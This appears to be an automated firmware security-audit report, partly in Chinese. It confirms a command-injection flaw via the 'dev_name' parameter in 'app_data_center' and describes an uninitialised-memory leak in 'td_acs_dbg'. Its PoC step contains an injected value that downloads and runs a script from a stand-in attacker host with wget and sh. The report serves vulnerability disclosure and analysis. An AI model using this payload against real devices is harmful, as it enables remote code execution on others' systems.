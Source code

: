- **描述准确性：** `partially`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报部分准确：命令注入漏洞确实存在于 'app_data_center' 文件的 'process_datamanage_usbeject' 函数中，但警报中的一些细节不精确。具体来说：
- 漏洞核心验证：用户可控的 'dev_name' 参数（而非 'device'）通过 'get_querry_var' 获取，未经过滤或转义，直接用于 snprintf 构建命令字符串 'cfm post netctrl 51?op=3,string_info=%s'，并通过 system 执行。这允许命令注入。
- 攻击者模型：未经身份验证的远程攻击者，通过发送 FastCGI 请求触发 'do_request_process' 函数（当请求参数为 'datamanage' 时调用 'process_datamanage_usbeject'），并控制 'dev_name' 参数。
- 完整攻击链：攻击者发送请求如设置 'dev_name' 为 'valid; malicious_command'，导致 system 执行 'cfm post netctrl 51?op=3,string_info=valid; malicious_command'，从而执行任意命令。
- 可利用性证据：代码显示没有输入过滤，路径可达（通过 'do_request_process' 调用），且 system 执行具有实际安全影响（如远程代码执行）。
- 不准确之处：警报中提到的 'umount %s' 格式字符串不正确（实际为 'cfm post netctrl...'），且检查条件针对 'action' 参数与 'fdel'，而非 'device' 与 'usb'。
PoC 步骤：攻击者构造 HTTP 请求到 'app_data_center' 服务，设置请求参数为 'datamanage' 并包含 'dev_name' 参数，值为 '/dev/sda1; wget http://attacker.com/malicious.sh -O /tmp/malicious.sh && sh /tmp/malicious.sh'。这将导致命令注入和执行恶意脚本。

## 验证指标

- **验证时长：** 393.41 秒
- **Token 使用量：** 418264

---

## 原始信息

- **文件/目录路径：** `usr/sbin/td_acs_dbg`
- **位置：** `td_acs_dbg:0x00008708 fcn.00008708 (sendto call)`
- **描述：** The td_acs_dbg binary contains an information disclosure vulnerability where uninitialized stack memory is sent over IPC. During command execution, the program constructs a 24-byte command structure but only initializes 20 bytes, leaving the last 4 bytes uninitialized. When sendto is called, these 4 bytes of stack memory are transmitted to the server socket. An attacker with valid login credentials can exploit this by creating a malicious UDP server at /tmp/td_acs_dbg_svr to receive the leaked data. The leaked memory may contain pointers, return addresses, or other sensitive data, which could be used to bypass ASLR or facilitate other attacks. The vulnerability is triggered when any command is executed that involves sending data to the server, which is most command operations given the program's design.
- **代码片段：**
  ```
  // From decompilation: sendto sends 24 bytes from iVar1, but only 20 bytes are initialized
  iVar1 = puVar12 + -0x24; // points to stack buffer
  // Initialization of fields (20 bytes):
  *(puVar12 + -0x24) = 0; // field0
  *(puVar12 + -0x20) = 0; // field1
  *(puVar12 + -0x1c) = uVar5; // field2 (uVar5=0)
  *(puVar12 + -0x18) = uVar5; // field3
  *(puVar12 + -0x14) = uVar5; // field4 (set later based on command)
  *(puVar12 + -0x10) = uVar5; // field5 (set later based on command)
  // sendto call transmits 24 bytes, including uninitialized data beyond -0x10
  sym.imp.sendto(iVar8, iVar1, 0x18, 0); // 0x18 = 24 bytes
  ```
- **备注：** The vulnerability requires the attacker to set up a malicious server at /tmp/td_acs_dbg_svr, which is feasible due to world-writable /tmp directory. While this does not directly lead to code execution, it can aid in information gathering for more severe attacks. The binary's world-writable permissions (-rwxrwxrwx) are a separate security issue that could allow privilege escalation if combined with other vulnerabilities. Further analysis of the server component (td_acs_dbg_svr) is recommended to assess full impact.
